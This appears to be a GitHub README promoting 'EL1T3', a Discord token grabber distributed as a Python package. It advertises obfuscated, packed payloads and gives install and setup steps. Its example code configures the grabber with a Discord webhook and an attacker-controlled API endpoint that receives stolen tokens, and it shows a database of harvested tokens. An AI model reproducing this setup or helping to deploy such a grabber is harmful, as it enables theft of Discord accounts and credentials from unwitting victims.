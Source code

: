 <h1 align="center">🦄<br>THE EL1T3 PROJECT</h1>

<p align="center">
  <b>Some link:</b><br>
  <a href="https://discord.gg/3UspqWXZtD">Discord</a> |
  <a href="https://www.youtube.com/channel/UC09GPm24_rdeOXa5KOmhDnw">YouTube</a> |
  <a href="https://github.com/Its-Vichy">Github</a> |
  <a href="https://pypi.org/project/EL1T3">PyPI Package</a><br>
  <br>
  <img src="https://media.discordapp.net/attachments/813683001496961065/813783642265747516/6869f4cf0c2f7349903668b562c4e403.gif">
</p>
<h1 align="center">FEATURE</h1>

- Dynamic url
- Private Database🦄 тнe мoѕт αdvαɴced αɴd powerғυl тoĸeɴ ɢrαввer
- Remove Duplicate account / token
- Obfuscate and pack payload
- Easy to use

<h1 align="center">HOW TO INSTALL</h1>

- **Run** ``./Setup.py`` **file to install modules**
<img align="center" src="https://media.discordapp.net/attachments/823351707110473789/823361030120931378/unknown.png">

#

<h1 align="center">HOW TO SETUP</h1>

```
+ Open port on host machine
+ Config port in EL1T3_API.py file
```

## 👀 Exemple Code:
```py
from EL1T3 import EL1T3

# Direct Url
EL1T3(dynamic_url= False, webhook_url= "https://discord.com/api/webhooks/81619050/M-BLMxSy5e23way", api_url= 'http://IP:PORT/api/SendToken/?Token=TOKEN-HERE')

# RAW Url
EL1T3(dynamic_url= True, webhook_url= "https://pastebin.com/raw/bNcRrQiK", api_url= 'http://IP:PORT/api/SendToken/?Token=TOKEN-HERE')
```

#

<h1 align="center">BUILD GRABBER</h1>

- **You can edit the grabber code on ``stub.txt`` file**
- **Dynamic api url in builder soon**

<img align="center" src="https://media.discordapp.net/attachments/820460842637459460/823377508602085386/unknown.png">
<img align="center" src="https://media.discordapp.net/attachments/820460842637459460/823377574079234098/unknown.png">
<img align="center" src="https://media.discordapp.net/attachments/820460842637459460/823378287535194212/unknown.png">

#

<h1 align="center">DATABASE SCREENSHOT</h1>
<img align="center" src="https://media.discordapp.net/attachments/823351707110473789/823356873637494794/unknown.png">
